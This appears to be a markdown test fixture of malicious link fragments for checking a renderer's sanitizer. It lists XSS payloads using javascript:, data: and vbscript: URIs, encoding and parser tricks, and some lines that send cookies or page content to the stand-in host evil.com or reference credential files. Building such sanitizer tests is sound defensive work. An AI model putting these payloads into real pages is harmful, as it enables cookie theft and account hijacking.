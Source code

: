 # Hash Fragment Exploitation Attempts

## Direct javascript: protocol in fragments
[Click me](#javascript:alert('xss'))
[Execute](#javascript:void(window.location='https://evil.com'))
[Steal](#javascript:document.write('<img src=//evil.com?c='+document.cookie+'>'))

## data: protocol patterns in fragments
[View](#data:text/html,<script>alert('xss')</script>)
[Load](#data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=)
[Exec](#data:application/javascript,alert('xss'))

## vbscript: and other script protocols in fragments
[VBS](#vbscript:msgbox("xss"))
[LiveScript](#livescript:alert('xss'))
[JScript](#jscript:alert('xss'))

## Protocol confusion with fragments
[Confuse](#javascript:alert(1)//https://safe.com)
[Fake](#https://safe.com#javascript:alert(1))
[Mixed](#//safe.com#javascript:alert(1))

## Fragment with embedded redirects
[Redirect](#javascript:location='https://evil.com')
[Navigate](#javascript:window.location.href='https://evil.com')
[Open](#javascript:window.open('https://evil.com'))

## Encoded dangerous fragments
[URL encoded](#javascript%3Aalert%28%27xss%27%29)
[Double encoded](#javascript%253Aalert%2528%2527xss%2527%2529)
[HTML entities](#javascript&colon;alert&lpar;&apos;xss&apos;&rpar;)
[Unicode](#java\u0073cript:alert('xss'))

## Fragment that looks safe but contains attacks
[Safe link?](#user-profile?id=123&callback=javascript:alert(1))
[API call?](#/api/endpoint?code=javascript:alert(1))
[Anchor](#section#javascript:alert(1))

## Null byte and special character injection
[Null](#safe\x00javascript:alert(1))
[Tab](#safe\tjavascript:alert(1))
[Newline](#safe%0Ajavascript:alert(1))
[Carriage return](#safe%0Djavascript:alert(1))

## Fragments with HTML injection attempts
[HTML](#<img src=x onerror=alert('xss')>)
[Script tag](#<script>alert('xss')</script>)
[SVG](#<svg/onload=alert('xss')>)
[Style](#<style>@import'javascript:alert(1)'</style>)

## Fragments designed to exploit JS fragment navigation
[Hash nav](#javascript:alert(1)#safe)
[Multiple hashes](#safe##javascript:alert(1))
[Hash encoding](#%23javascript:alert(1))

## Social engineering with deceptive fragments
[Download PDF](#javascript:alert('This looks like a safe download'))
[View Image](#data:text/html,<h1>Click here to view</h1><script>alert(1)</script>)
[Open Document](#javascript:void(prompt('Enter password:')))

## Fragments with protocol smuggling
[Smuggle](#javascript:/**/alert(1))
[Comment](#javascript://comment%0Aalert(1))
[Whitespace](#javascript:   alert(1))
[Tab separated](#javascript:	alert(1))

## Fragments attempting to break parsing
[Nested](#javascript:eval('#javascript:alert(1)'))
[Recursive](#javascript:location.hash='#javascript:alert(1)')
[Self-ref](#javascript:window.location='#'+window.location.hash)

## Browser-specific fragment exploits
[Chrome](#chrome://settings)
[Firefox](#about:config)
[Edge](#edge://settings)
[Safari](#safari://settings)

## File protocol in fragments
[File](#file:///etc/passwd)
[Local](#file://c:/windows/system32/config/sam)
[Network](#file://attacker.com/share/malware.exe)

## Fragment with data exfiltration patterns
[Exfil](#javascript:fetch('https://evil.com?d='+btoa(document.body.innerHTML)))
[Cookie steal](#javascript:navigator.sendBeacon('https://evil.com',document.cookie))
[Form data](#javascript:new Image().src='https://evil.com?'+document.forms[0].serialize())

## Fragments attempting DOM clobbering
[Clobber](#javascript:document.body.innerHTML='<form name=location><input name=href></form>')
[Override](#javascript:Object.defineProperty(window,'location',{value:{href:'https://evil.com'}}))

## Fragments with timing attacks
[Timing](#javascript:setTimeout(alert,1000))
[Interval](#javascript:setInterval(()=>fetch('https://evil.com'),1000))
[Async](#javascript:Promise.resolve().then(()=>alert(1)))

## Fragments attempting to exploit markdown renderers
[MD exploit](#javascript:');//';alert(1);//')
[Template](#javascript:${alert(1)})
[Interpolation](#javascript:`${alert(1)}`')

## Fragments with CRLF injection
[CRLF](#safe%0D%0ALocation:%20javascript:alert(1))
[Header inj](#safe%0D%0AContent-Type:%20text/html%0D%0A%0D%0A<script>alert(1)</script>)

## Fragments attempting to exploit URL parsers
[Parser conf](#javascript:alert(1)?#safe)
[Query in frag](#safe?callback=javascript:alert(1)#)
[Authority](#javascript://safe.com@evil.com/alert(1))

## Fragments with polyglot payloads
[Polyglot](#javascript:/*<script>*/alert(1)/*/</script>)
[Multi-context](#javascript:'"-alert(1)-"')
[Triple encoded](#javascript:%25%36%38%25%37%34%25%37%34%25%37%30)
